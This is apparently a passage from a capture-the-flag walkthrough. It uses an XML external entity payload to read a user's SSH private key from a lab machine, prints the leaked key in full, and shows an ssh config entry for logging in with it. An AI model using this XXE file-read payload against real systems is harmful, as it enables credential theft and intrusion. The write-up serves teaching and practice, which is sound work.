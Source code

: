 ```
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```

Let's try to grab SSH keys for those users, this works for `florian` with the payload:
```xml
<!DOCTYPE details [ 
  <!ENTITY file SYSTEM "file:///home/florian/.ssh/id_rsa">
]>
<details>
    <subnet_mask>&file;</subnet_mask>
    <test></test>
</details>
```

Response:
```
There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
+YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
/oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
-----END RSA PRIVATE KEY-----
```

Modifying `~/.ssh/config` file to use this key and the corresponding user:
```
host 10.10.10.78
 IdentityFile ~/.ssh/florian.key
 User florian
```

